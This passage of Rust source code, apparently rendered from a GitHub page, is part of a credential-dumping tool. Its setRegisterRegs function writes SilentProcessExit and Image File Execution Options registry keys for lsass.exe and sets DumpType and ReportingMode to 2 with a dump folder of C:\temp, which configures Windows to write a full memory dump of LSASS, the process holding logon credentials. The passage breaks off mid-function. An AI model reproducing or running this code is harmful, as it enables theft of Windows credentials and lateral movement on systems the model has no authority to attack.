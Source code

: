 ```rust
            }
        }
        process_entry.th32ProcessID
    }
}
fn setRegisterRegs() {
    unsafe{
        let key = HKEY_LOCAL_MACHINE;
        let  IFEO_REG_KEY = r"SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\lsass.exe";
        let  SILENT_PROCESS_EXIT_REG_KEY= r"SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\lsass.exe";

        let subkey = OsString::from(IFEO_REG_KEY).encode_wide().chain(Some(0)).collect::<Vec<_>>();
        let mut hKey = HKEY::default();

        let mut hSubKey = HKEY::default();
        let ret = RegCreateKeyExW(
            key,
            OsString::from(SILENT_PROCESS_EXIT_REG_KEY).encode_wide().chain(Some(0)).collect::<Vec<u16>>().as_ptr(),
            0, 
            null_mut(), 
            0, 
            KEY_ALL_ACCESS, 
            ptr::null_mut(), 
            &mut hSubKey, 
            ptr::null_mut());
        if ret != 0   {
            println!("{:?}",ret);
            println!("[-] CreateKey SilentProcessExit\\lsass.exe ERROR\n");
        }

        let DumpTypevalue = std::mem::transmute::<&i32,*const u8>(&0x02) ;
        let DumpTypekey = CString::new("DumpType").unwrap();
        let ret = RegSetValueExA(
            hSubKey,
            DumpTypekey.as_ptr() as *const u8,
            0,
            REG_DWORD,
            DumpTypevalue,
            size_of::<u32>() as u32
        );
        if ret != 0{
            println!("[-] SetDumpTypeKey SilentProcessExit\\lsass.exe  ERROR\n");
        }

        let ReportingModevalue = std::mem::transmute::<&i32,*const u8>(&0x02) ;
        let ReportingModekey = CString::new("ReportingMode").unwrap();

        let ret = RegSetValueExA(
            hSubKey,
            ReportingModekey.as_ptr() as *const u8,
            0,
            REG_DWORD,
            ReportingModevalue,
            size_of::<u32>() as u32
        );
        if ret != 0{
            println!("[-] SetReportingModevalueKey SilentProcessExit\\lsass.exe ERROR\n");
        }

        let ReportingModevalue = "C:\\temp" ;
```